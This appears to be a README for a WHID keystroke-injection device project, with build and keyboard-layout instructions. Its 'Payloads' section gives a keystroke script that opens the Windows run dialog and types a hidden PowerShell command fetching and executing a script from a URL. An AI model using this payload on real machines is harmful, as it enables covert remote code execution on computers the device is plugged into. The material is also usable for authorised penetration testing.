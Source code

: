 ## Build instructions

See installation & Build instructions at [github.com/whid-injector/WHID/wiki#main-requirements](https://github.com/whid-injector/WHID/wiki#main-requirements)


## Change Keyboard layout

If the keyboard is available at [github.com/whid-injector/WHID/wiki/Keyboards-Layout](https://github.com/whid-injector/WHID/wiki/Keyboards-Layout), use those instructions.

If not available, you can modify the file `Keyboard/src/KeyboardLayout_en_US.cpp` ([`Keyboard` library](https://github.com/arduino-libraries/Keyboard), usually found somewhere at around `%localAppData%/Arduino15/libraries/Keyboard` on Windows) based on your needs. \
An example for that is the file [KeyboardLayout_en_US.cpp](/files/KeyboardLayout_en_US.cpp) for the Swiss-German keyboard layout

## Payloads

Use something like the following to execute a powershell script from an url (replace `URL` accordingly)
```shell
Press:131+114 
Print:powershell -w h "IEX(iwr('URL'))"
Press:176
Press:176
Press:176
Press:176
Press:176
```

> **Note**
> `131+114` here stands for the `WIN` + `r` key combo, and `176` for  `ENTER` ([syntax](https://github.com/whid-injector/WHID/wiki/WHID-Software-SCRIPTING-SYNTAX)) \
> See [github.com/whid-injector/WHID#how-to-start-newbies-edition](https://github.com/whid-injector/WHID?tab=readme-ov-file#how-to-start-newbies-edition) for general usage of the WHID-injector
